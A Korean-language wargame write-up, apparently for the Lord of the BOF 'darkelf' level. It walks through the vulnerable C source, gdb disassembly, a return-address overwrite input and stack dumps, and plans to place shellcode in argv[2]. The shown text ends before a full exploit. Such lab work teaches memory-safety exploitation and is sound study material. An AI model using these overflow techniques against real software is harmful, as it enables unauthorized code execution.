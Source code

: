 # Summary

문제의 소스코드를 우선 살펴보자.

```c
[wolfman@localhost wolfman]$ cat darkelf.c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - darkelf
        - egghunter + buffer hunter + check length of argv[1]
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	// egghunter
	for(i=0; environ[i]; i++)
		memset(environ[i], 0, strlen(environ[i]));

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

	// check the length of argument
	if(strlen(argv[1]) > 48){
		printf("argument is too long!\n");
		exit(0);
	}

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);

}
```

이 문제의 핵심은 다음과 같다.

- 버퍼를 `\x00`으로 초기화
- 환경 변수를 `\x00`으로 초기화
- 인자 argv[1]의 길이 값 체크



`argv[1]`의 길이 값 체크 부분이 추가되었기 때문에 해당 인자에 쉘코드를 삽입해 실행할 수 없다.
그렇다면 `argv[2]`를 이용해 쉘코드를 삽입할 경우 길이 값 체크 부분은 우회될 수 있을것 같다.
먼저 tmp 폴더에 문제 파일을 그대로 복사해 실행권한을 얻고 gdb로 분석해보자.
```
[wolfman@localhost wolfman]$ mkdir tmp; cp darkelf tmp
[wolfman@localhost wolfman]$ ls
darkelf  darkelf.c  tmp
[wolfman@localhost wolfman]$ cd tmp
[wolfman@localhost tmp]$ ls
darkelf
[wolfman@localhost tmp]$ gdb -q ./darkelf
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
... 생략 ...
0x80485d7 <main+215>:	call   0x8048420 <exit>
0x80485dc <main+220>:	add    %esp,4
0x80485df <main+223>:	nop
0x80485e0 <main+224>:	mov    %eax,DWORD PTR [%ebp+12]
0x80485e3 <main+227>:	add    %eax,4
0x80485e6 <main+230>:	mov    %edx,DWORD PTR [%eax]
0x80485e8 <main+232>:	push   %edx
0x80485e9 <main+233>:	lea    %eax,[%ebp-40]
0x80485ec <main+236>:	push   %eax
0x80485ed <main+237>:	call   0x8048440 <strcpy>
0x80485f2 <main+242>:	add    %esp,8
0x80485f5 <main+245>:	lea    %eax,[%ebp-40]
0x80485f8 <main+248>:	push   %eax
0x80485f9 <main+249>:	push   0x80486b0
0x80485fe <main+254>:	call   0x8048410 <printf>
0x8048603 <main+259>:	add    %esp,8
0x8048606 <main+262>:	push   40
0x8048608 <main+264>:	push   0
0x804860a <main+266>:	lea    %eax,[%ebp-40]
0x804860d <main+269>:	push   %eax
0x804860e <main+270>:	call   0x8048430 <memset>
0x8048613 <main+275>:	add    %esp,12
0x8048616 <main+278>:	leave
0x8048617 <main+279>:	ret
End of assembler dump.
(gdb) b *main+242
Breakpoint 1 at 0x80485f2
```



먼저 main 함수를 디스어셈블하여 strcpy 함수 실행 직후 부분인 `main+242`에 브레이크 포인트를 걸어준다.

다음 `buf+sfp`크기만큼 문자열 `A`로 덮어 씌워주고 `ret` 값을 삽입해 `run`하여 브레이크 포인트에서

스택에 값이 정상적으로 들어갔는지 확인하고 `continue` 해보니 리턴 주소가 `0xbfbfbfbf`로 변조된 것이 확인된다.

```
(gdb) r `python -c "print 'A'*44+'\xbf\xbf\xbf\xbf'"`
Starting program: /home/wolfman/tmp/./darkelf `python -c "print 'A'*44+'\xbf\xbf\xbf\xbf'"`

Breakpoint 1, 0x80485f2 in main ()
(gdb) x/40wx $esp
0xbffffaf4:	0xbffffb00	0xbffffc73	0x00000012	0x41414141
0xbffffb04:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffb14:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffb24:	0x41414141	0x41414141	0xbfbfbfbf	0x00000000
0xbffffb34:	0xbffffb74	0xbffffb80	0x40013868	0x00000002
0xbffffb44:	0x08048450	0x00000000	0x08048471	0x08048500
0xbffffb54:	0x00000002	0xbffffb74	0x08048390	0x0804864c
0xbffffb64:	0x4000ae60	0xbffffb6c	0x40013e90	0x00000002
0xbffffb74:	0xbffffc57	0xbffffc73	0x00000000	0xbffffca4
0xbffffb84:	0xbffffcc6	0xbffffcd0	0xbffffcde	0xbffffcfd
(gdb) c
Continuing.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����

Program received signal SIGSEGV, Segmentation fault.
0xbfbfbfbf in ?? ()
(gdb)
```



`continue`하여 프로그램이 실행된 직후 `esp-80` 부분을 확인해보니

이전 문제와 같이  `buffer hunter`에 의해 `buf`가 모두 0으로 초기화되었음을 확인할 수 있다.

```
(gdb) x/40wx $esp-80
0xbffffae0:	0x4000ae60	0xbffffb74	0xbffffb28	0x08048613
0xbffffaf0:	0xbffffb00	0x00000000	0x00000028	0x00000012
0xbffffb00:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffffb10:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffffb20:	0x00000000	0x00000000	0x41414141	0xbfbfbfbf
0xbffffb30:	0x00000000	0xbffffb74	0xbffffb80	0x40013868
0xbffffb40:	0x00000002	0x08048450	0x00000000	0x08048471
0xbffffb50:	0x08048500	0x00000002	0xbffffb74	0x08048390
0xbffffb60:	0x0804864c	0x4000ae60	0xbffffb6c	0x40013e90
0xbffffb70:	0x00000002	0xbffffc57	0xbffffc73	0x00000000
(gdb)
```



`buf` 에서 조금 떨어진 부분을 확인해보니 인자`argv[1]`에 해당되는 부분을 확인할 수 있었으며

해당 부분은 0으로 초기화되어 있지 않았다.

여기까지는 이전 문제와 동일하다.

이전 문제에서는 `argv[1]`에 쉘코드를 삽입하여 `ret`값으로 `argv[1]`에 주소 값을 주었으나

이 문제에서는 `argv[1]`의 길이 값 체크 부분이 추가되어 동일하게 문제를 풀 수는 없다.

하지만 `argv[2]`에 쉘코드를 삽입해 리턴 번지를 `argv[2]`로 overwrite해 문제를 해결할 수 있을 것 같다.

```
(gdb) x/40wx $esp-80
0xbffffae0:	0x4000ae60	0xbffffb74	0xbffffb28	0x08048613
0xbffffaf0:	0xbffffb00	0x00000000	0x00000028	0x00000012
0xbffffb00:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffffb10:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffffb20:	0x00000000	0x00000000	0x41414141	0xbfbfbfbf
0xbffffb30:	0x00000000	0xbffffb74	0xbffffb80	0x40013868
0xbffffb40:	0x00000002	0x08048450	0x00000000	0x08048471
0xbffffb50:	0x08048500	0x00000002	0xbffffb74	0x08048390
0xbffffb60:	0x0804864c	0x4000ae60	0xbffffb6c	0x40013e90
0xbffffb70:	0x00000002	0xbffffc57	0xbffffc73	0x00000000
(gdb)
0xbffffb80:	0xbffffca4	0xbffffcc6	0xbffffcd0	0xbffffcde
0xbffffb90:	0xbffffcfd	0xbffffd0d	0xbffffd2a	0xbffffd3b
0xbffffba0:	0xbffffd49	0xbffffd99	0xbffffdac	0xbffffdc1
0xbffffbb0:	0xbffffdd1	0xbffffdde	0xbffffdfd	0xbffffe08
0xbffffbc0:	0xbffffe15	0xbffffe1d	0x00000000	0x00000003
0xbffffbd0:	0x08048034	0x00000004	0x00000020	0x00000005
0xbffffbe0:	0x00000006	0x00000006	0x00001000	0x00000007
0xbffffbf0:	0x40000000	0x00000008	0x00000000	0x00000009
0xbffffc00:	0x08048450	0x0000000b	0x000001f9	0x0000000c
0xbffffc10:	0x000001f9	0x0000000d	0x000001f9	0x0000000e
(gdb)
0xbffffc20:	0x000001f9	0x00000010	0x0f8bfbff	0x0000000f
0xbffffc30:	0xbffffc52	0x00000000	0x00000000	0x00000000
0xbffffc40:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffffc50:	0x36690000	0x2f003638	0x656d6f68	0x6c6f772f
0xbffffc60:	0x6e616d66	0x706d742f	0x642f2e2f	0x656b7261
0xbffffc70:	0x4100666c	0x41414141	0x41414141	0x41414141
0xbffffc80:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffc90:	0x41414141	0x41414141	0x41414141	0xbf414141
0xbffffca0:	0x00bfbfbf	0x00000000	0x00000000	0x00000000
0xbffffcb0:	0x00000000	0x00000000	0x00000000	0x00000000
```



